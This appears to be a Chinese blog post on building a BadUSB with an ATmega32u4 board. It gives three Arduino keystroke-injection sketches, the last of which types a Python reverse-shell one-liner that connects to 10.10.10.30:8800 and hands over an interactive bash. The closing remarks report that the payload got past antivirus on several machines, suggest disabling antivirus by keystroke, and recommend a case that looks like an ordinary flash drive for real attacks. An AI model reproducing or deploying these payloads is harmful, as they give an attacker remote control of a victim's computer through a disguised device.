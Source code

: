 ```yaml
---
layout:		post
title:		"badusb试玩"
subtitle:	"物理攻击警告"
date:		2019-08-06 20:46:25  +0800
author:		"Les1ie"
catlog:   true
tags: 
  - websecurity
  - badusb
---
```

板子用的beetle usb atmega32u4 

![](http://static.scuseek.com/20190806-204731.png)

选择arduino leonardo，编译上传即可
![](http://static.scuseek.com/20190806-204939.png)
# windows弹计算器
```
#include <Keyboard.h>

void setup() {
  // put your setup code here, to run once:
  Keyboard.begin();
  delay(2000);
  Keyboard.press(KEY_LEFT_GUI);
  delay(50);
  Keyboard.press('r');
  delay(50);
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  delay(50);
  Keyboard.println("calc");
  delay(50);
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  delay(50);
  
  
}

void loop() {
  // put your main code here, to run repeatedly:

}
```


# ubuntu 开终端
```
#include <Keyboard.h>

void setup() {
  // put your setup code here, to run once:
  Keyboard.begin();
  delay(2000);
/*
  Keyboard.press(KEY_LEFT_CTRL);
  delay(500);
  Keyboard.press(KEY_LEFT_ALT);
  delay(500);
  Keyboard.press('T');
  delay(500);
  Keyboard.release('T');
  */
  Keyboard.press(KEY_LEFT_GUI);
  delay(500);
  Keyboard.release(KEY_LEFT_GUI);
  delay(500);
  Keyboard.println("term");
  delay(500);

  Keyboard.press(KEY_RETURN);
  delay(500);
  Keyboard.release(KEY_RETURN);


  Keyboard.println("echo hacked");
  delay(500);
  Keyboard.press(KEY_RETURN);
  delay(500);
  Keyboard.release(KEY_RETURN);
  delay(50);




}

void loop() {
  // put your main code here, to run repeatedly:

}
```


# ubuntu反弹shell
```cpp
#include <Keyboard.h>

void setup() {
  // put your setup code here, to run once:
  Keyboard.begin();
  delay(2000);
/*
  Keyboard.press(KEY_LEFT_CTRL);
  delay(500);
  Keyboard.press(KEY_LEFT_ALT);
  delay(500);
  Keyboard.press('T');
  delay(500);
  Keyboard.release('T');
  */
  Keyboard.press(KEY_LEFT_GUI);
  delay(500);
  Keyboard.release(KEY_LEFT_GUI);
  delay(500);
  Keyboard.println("term");
  delay(500);

  Keyboard.press(KEY_RETURN);
  delay(500);
  Keyboard.release(KEY_RETURN);


  Keyboard.println("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.10.30\",8800));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'
");
  delay(500);
  Keyboard.press(KEY_RETURN);
  delay(500);
  Keyboard.release(KEY_RETURN);
  delay(50);




}

void loop() {
  // put your main code here, to run repeatedly:

}
```


# 跋
代码异常简单，执行过程也毫不隐蔽，难点在于如何把做好的板子插到目标设备上。

模拟的键盘设备，试过了5台电脑，其中三台有杀软，没有遇到拦截的情况。
如果有恶意命令，可能会被拦截，比如火绒会拦截命令行创建用户的命令

板子模拟键盘操作关掉杀软也是可以的 :) 

淘宝上这款板子有的是带壳子的，外观就是一个普通的优盘。如果实战使用的话可能更好。